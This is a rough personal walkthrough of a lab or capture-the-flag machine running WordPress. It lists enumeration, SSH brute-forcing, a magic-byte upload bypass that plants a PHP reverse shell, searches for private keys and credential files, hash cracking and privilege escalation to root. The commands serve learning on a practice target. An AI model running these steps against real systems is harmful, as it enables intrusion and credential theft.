

## Enumeartion & Reconnaisance
### nmap 
1. fastscan
nmap -p- --max-retries 1 -sS -Pn -n 172.31.233.31 -oA fastscan 
2. topports
nmap --top-ports 1000 -sS -Pn -n 172.31.233.31 -oA topports
3. detailed
nmap -p 22,80 -sV -sC -Pn -n 172.31.233.31 -oA detailed 

## Vulnerabilities assessment
### SSH 7.2p2 ubuntu 2016
know vuln
  username enumeration
    `python2 enumyeah.py 172.31.227.231 -U ssh-usernames.txt`
      find right tools
    you can download wordlist in github or find the some usernaem in webserver and put them on it. later on

default creds? : root:root root:password 
  publickey only

script
  auth

### HTTP apache 2.4.18 2019
script
  not wordpress
  so 
what do you do
  personal blog - programmer
  function : login
  development skills 
  contact 
wappalyzer 
  x

robots.txt
  x

ctrl U 
  js link webappliation/version
    /image

login doesn't work just direct to home
language? 
contact too, sam length

#### dir bruteforcing -gobuster
1. simple
  gobuster dir -u http://172.31.227.231/ -w /usr/share/dirb/wordlists/common.txt -t 20 -o simple -f
    /assets/
    /images/
      these are default

with file
  gobuster dir -u http://172.31.227.231/ -w /usr/share/dirb/wordlists/common.txt -t 20 -x php,html,txt -o file -f

2. detailed
  gobuster dir -u http://172.31.227.231/ -w /usr/share/dirbuster/wordlists/small -t 20 -o detailed -f
    x no interesting

with file
  gobuster dir -u http://172.31.227.231/ -w /usr/share/dirbuster/wordlists/small -t 20 -x php,html,txt -o detailed_file -f 

later
  `bak,bac,zip,back,backup,docs,xlxs`,

#### detailed inspection
oh I found users
  gather. > and 
    ssh enumeration (exploit)
      
    or just hydra brute force rightaway 
  also james
  maybe mix uppercase and lowercase
    all lower  : tr '[:upper:]' '[:lower:]'
    all upper : tr '[:lower:]' '[:upper:]'
    first capital letter  
    all different results right.
      BAKER (no the tools wasn't working)
      no I think it's not that different for speed
        ssh bruteforcing
          with rockyou.txt
            hydra -l BAKER -P /usr/share/wordlists/rockyou.txt ssh://172.31.227.231 -s 22 -V -f 
              no not support the passport authentication
          or make related wordslist with cewl
            cewl -w words.cewl http://172.31.227.231/
              to user enumeration.
          login directely

that was not valid user.
ssh key 

search more in directory /asset/blog/
  /etc/hosts
  - virutal hosting=vhost (one ip : many hostname, be able to use different directories with one ip = that's why I need to put URL instead of ip for scanning), if you see the source code , they import from the name based
  http://blogger.thm/assets/fonts/blog/wp-login.php

  wordpress 4.9.8 2018
    known vulns: no 
      you need to check with `searchsploit wordpress PLUGIN_NAME PLUGIN_VERSION` because even if it's the higher version wordpress, plugins are vuln old-version
  wpscan 
  nmap scan again?

  default user?
    admin root x 
    
inspection in /fonts/blog
  is it not actual server right?

  user : J@M3S

OWASP
  sqli in search box

  file upload
    http:\/\/blogger.thm\/assets\/fonts\/blog\/wp-content\/uploads\/2024\/07\/cat-1721353535.9508.png"
      sed "s/\\//g" : replace all duplications
      http://blogger.thm/assets/fonts/blog/wp-content/uploads/2024/07/cat-1721353535.9508.png

    php possible in burpsuite
      they detect only magic bytes
      because if I change the jpg to php, they allow me to upload
        xxd cat.png
       (head -c 8 cat.png;cat ~/tools/php-reverse-shell.php) > ~/blogger/revshell.php
        get shell

## Exploitation & Initial access 
1. need to find james or vagrant users ssh key 
  how about just grep -i "PRIVATE" ssh key right away?
  grep -ri "*PRIVATE KEY*" / 2>/dev/null
  find / -name "*id_rsa*" 2>/dev/null
  find / -name "*.ssh*" 2>/dev/null
   
2. or priv escalation > root
  yes I think it's already host not in docker.

mysql running locally

and I think it's permitted to use password with local host?
  no

cat /etc/passwd
  James M Brunner,,, = comment about user

cron
  can't write
idk linpeas

/usr/share/doc/openssh-client/examples/sshd_config
  can I change the config of ssh? no but can read
  /etc/ssh/sshd_config : authentication config
  /etc/ssh/ssh_config : idk
  

I need still creds right? 
  and I didn't get into wordpress DB.
    and I can read all the source code
      wp-config.php > root:sup3r_s3cr3t got
        mysql -u root -p -h localhost
        or wordpress admin page (for RCE or usercreds, but we already got the shell, so no need for searching)
          user j@m3s : 
          $P$BqG2S/yf1TNEu03lHunJLawBEzKQZv/ (MD5-wordpress)
            john --wordlist=/usr/share/wordlists/rockyou.txt james.hash
              no need custom wordlists  
              cewl?
              cewl -w words2.cewl http://blogger.thm/assets/fonts/blog/ - error
              cewl -w words2.cewl http://172.31.227.231/assets/fonts/blog

              john --wordlist=words.cewl james.hash
              cewl depth raise
                session completed stright away but the rockyou.txt is working, so it's wordlists's problem.
                same with hashcat-exhuasted

            
          admin@blogger.thm

I got .creds but Idon't know what it is. 

#### during hash-cracking 
cewl -o -w words3.cewl http://172.31.227.231/assets/fonts/blog

john --wordlist=/usr/share/wordlists/rockyou.txt james.hash
  working but takes time
john --wordlist=words3.cewl james.hash --format=phpass
john --wordlist=words3.cewl james.hash
  not wroking

hashcat -a 0 -m 400 -o hashcat.output --outfile-format 2 james.hash words3.cewl
  -400 : phpass(MD5-wordpress) 
  notworking 

> it's the wordlist's problem

What I have to do is find the creds or ssh key in shell
or mysql 

#### gobuster with this wordpress sites
no need actually.
you get read the source code 

#### nmap with this wordpress sites
or

no it can't go further like this

#### wpscan with this
wpscan --url http://blogger.thm/assets/fonts/blog
wpscan --url http://blogger.thm/assets/fonts/blog/wp-login.php (X)
wpscan for finding additional vulns

ssh

### mysql
mysqldump -u root -p'sup3r_s3cr3t' -P 3306 -h localhost wordpress > sql.dump
  see on the SQL client - dbeaver (import data)
    skip

mariaDB version?  10.0.38-MariaDB 2019
  X

Let's again escalate privilege or find passwords(related wordpress sole user - j@mes) while running linpeas.sh, LinEnum.sh in www-data  
if no result, go back and inspect again.

- Kernel version
Linux kernel version 4.4.0-206-generic 2016
Ubuntu 16.04.7 LTS
there are many privilege escalation 
about 3 privilege escalation
1. Linux Kernel < 4.13.9 (Ubuntu 16.04 / Fedora 27) - Local Privilege Escalation
gcc .c -o cve-2017-16995
./cve~
  Do I need to compile in the target host?
    yes environment compatibility(arthitecture and library versions), and dependencies(linked particular libraries), and binary format(differnet executable formats) 

2. Linux Kernel 4.4.0 (Ubuntu) - DCCP Double-Free Privilege Escalation
  compatibility problem : /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found

3. Linux Kernel 4.4.0 (Ubuntu 14.04/16.04 x86-64) - 'AF_PACKET' Race Condition Privilege Escalation
gcc chocobo_root.c -o chocobo_root -lpthread
./40871: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.32' not found (required by ./40871)
./40871: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.33' not found (required by ./40871)
./40871: /lib/x86_64-linux-gnu/libc.so.6: version `GLIBC_2.34' not found (required by ./40871)

if couldn't on the target, you can do cross-compile. 
  set target arch and OS 

arm-linux-gnueabi-gcc -o exploit exploit.c

- target kernel archtecture and OS arm/ ..
Architecture: x86-64 = amd64
Kernel : Linux 4.4.0-206-generic
OS : Ubuntu 16.04.7 LTS

- kali arch and OS
x86-64
Linux 6.6.15-amd64
Kali GNU/Linux Rolling 

version: gcc-13 
compiler's target: processor x86_64-linux-gnu

- win
x64-based = 64bit
set > PROCESSOR_ARCHITECTURE=AMD64

#### ARM VS AMD
amd = desktop/server 
arm = mobile platform

amd64 = x86-64, 64bit virtual address format 
aarch64 = arm64

#### GNU means
GNU = project to be opensource 
it provides many utility, tools, and components that make up a Unix-like OS.
  e.g. essential tools - gcc, cp, ls 
Linux founder's used GNU to make Linux OS  > GNU/Linux

Linux = an OS modelded on UNIX , also Unix-like kernel
Unix, Linux = all POSIX
Android = Linux OS

#### cross-compiler
compiler must know CPU, OS of target platform
- which version of GCC?
newest version GCC is recommended because using 4.6 to build GCC 4.8 compiler would create troubles
- which binutils version?
latest and greatest Binutils release is recommended.
ld --version

host=x86_64 target=x86_64
you need version of target system's libraries and kernel

apt install gcc-multilib g++-multilib

- intall specific cross-compiler
apt-get install gcc-5 g++-5

- set up the environment
export CC=/usr/bin/gcc-5
export CXX=/usr/bin/g++-5
export LD_LIBRARY_PATH=/usr/lib/gcc/x86_64-linux-gnu/5:/usr/lib/x86_64-linux-gnu:/lib/x86_64-linux-gnu

./configure --host=x86_64-linux-gnu --prefix=/usr/local/target

cmake -DCMAKE_C_COMPILER=$CC -DCMAKE_CXX_COMPILER=$CXX .

make

make install DESTDIR=/

Idk

> manually create ubuntu virtual image iso  
sudo apt list | grep -i linux-image-4.4.0-*
reboot and select the version in grub menu with holding the shift
  too lag

#### got hint : specific wpscan  
wpscan --url http://blogger.thm/assets/fonts/blog/ -e ap --plugins-detection aggressive
  not default scan, passive mthods to aggressive detection without password 

wpscan --url http://blogger.thm/assets/fonts/blog/ -e ap, at : this is default mode right?

wpscan --url http://blogger.thm/assets/fonts/blog/ --plugins-detection aggressive
is there any theme aggressive ? no
  wpdiscuz 7.0.4
  `searchsploit wordpress wpdiscuz 7.0.4`
  RCE  or file upload, 
  - at least you need to assess the python code. how it works 
  

- and if you got shell, you can check wordpress/plugins or theme. > exploit

#### got hint : su USERNAME 

instead of `ssh USER@localhost` - it's not permitted and need private key
su USERNAME = just need password

consider `username:username` credentials 
> usernames.txt and password.txt
 try right away
  
- you don't keep finding the creds or hash cracking even though you feel like you got useful things, maybe the answer is another way rather than that, and there are many ways. 

## Post-exploitation & Privilege Escalation

vagrant 
/.ssh/authorized_keys : public key = useless
sudo -l > 
sudo -i or 
sudo su : su BLANK = default is root
sudo su - : /root dir start  
> root got 

### Review & Remind
1. gobuster > even if the directories look like default dir, you need to go further > /assets/fonts/blog/  
2. vhost(virtual hosting) vi /etc/hosts < add the   
3. wordpress found > 
  `wpscan --url virtualhostingURL` even though you don't have password. 
    important is vuln plugin and theme, not wordpress version.  --plugin-aggressive, wait and  
    searchsploit wordpress wpDiscuz VERSION
    try 

  file upload(magic bytes) 
    if you get shell first, you can check plugins, if it's vulns
4. shell got >
cat /etc/passwd > 2 usernames found
ssh not permitted (with password)> su USERNAME
5. /.ssh/authorized_keys = public key = useless
sudo -i  > root